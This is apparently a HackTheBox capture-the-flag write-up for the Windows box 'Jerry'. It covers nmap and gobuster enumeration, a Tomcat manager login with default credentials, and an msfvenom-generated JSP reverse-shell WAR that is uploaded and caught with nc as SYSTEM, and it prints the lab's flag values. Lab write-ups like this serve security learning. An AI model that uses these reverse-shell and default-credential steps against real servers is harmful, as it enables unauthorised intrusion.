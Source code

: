 ```yaml
---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - WAR
  - default-credentials
  - tomcat
  - weak-credentials
  - Windows
---
```

# Resolution summary

>[!summary]
>- **Default credentials** allowed to obtain administrative access to the **/manager/** area of the **tomcat** server
>- **Arbitrary WAR upload** allowed to obtain a high privileged reverse shell
>- No privilege escalation was required because tomcat was running with high privileges

## Improved skills

- Exploiting tomcat

## Used tools

- nmap
- gobuster
- msfvenom

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Jerry]
└─$ sudo nmap -p- 10.10.10.95 -sS -Pn -oN scans/all-tcp-ports.txt -v
...
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Jerry]
└─$ sudo nmap -p8080 10.10.10.95 -sT -sV -sC -Pn -oN scans/open-tcp-ports.txt -v
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
...
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
...
```

# Enumeration

## Port 8080 - HTTP (Apache Tomcat 7.0.88)

Enumerated port 8080 using a web browser:

![Pasted image 20210514100214.png](../../zzz_res/attachments/Pasted_image_20210514100214.png)

Enumerated web directories and files:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Jerry]
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o p80-directories.txt -f -r
...
/docs/                (Status: 200) [Size: 19677]
/manager/             (Status: 401) [Size: 2536] 
/examples/            (Status: 200) [Size: 1285]
```

### Accessed /manager/ using default credentials

![Pasted image 20210514101501.png](../../zzz_res/attachments/Pasted_image_20210514101501.png)

![Pasted image 20210514100642.png](../../zzz_res/attachments/Pasted_image_20210514100642.png)

# Exploitation

## Arbitrary WAR Upload using default credentials

Generated WAR reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jerry/exploit]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=10099 -f war -o maoutis.war
Payload size: 1086 bytes
Final size of war file: 1086 bytes
Saved as: maoutis.war
```

Uploaded and executed the arbitrary WAR:

![Pasted image 20210514102107.png](../../zzz_res/attachments/Pasted_image_20210514102107.png)

![Pasted image 20210514102127.png](../../zzz_res/attachments/Pasted_image_20210514102127.png)

Triggered the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jerry/exploit]
└─$ curl http://10.10.10.95:8080/maoutis/
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jerry/exploit]
└─$ nc -nlvp 10099

listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.95] 49197
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>cd C:\Users\Administrator\Desktop\flags\
cd C:\Users\Administrator\Desktop\flags\

C:\Users\Administrator\Desktop\flags>whoami && hostname && type 2* && ipconfig
whoami && hostname && type 2* && ipconfig
nt authority\system
JERRY
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.10.95
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{4C9FEAFE-6811-4938-BFB6-5A3280613EF9}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

![Pasted image 20210514102714.png](../../zzz_res/attachments/Pasted_image_20210514102714.png)

# Trophy

>[!quote]
>Life is incomplete without enemies
>
>\- Tom & Jerry

>[!success]
>**User.txt**
>7004dbcef0f854e0fb401875f26ebd00

>[!success]
>**Root.txt**
>04a8b36e1545a455393d067e772fe90e

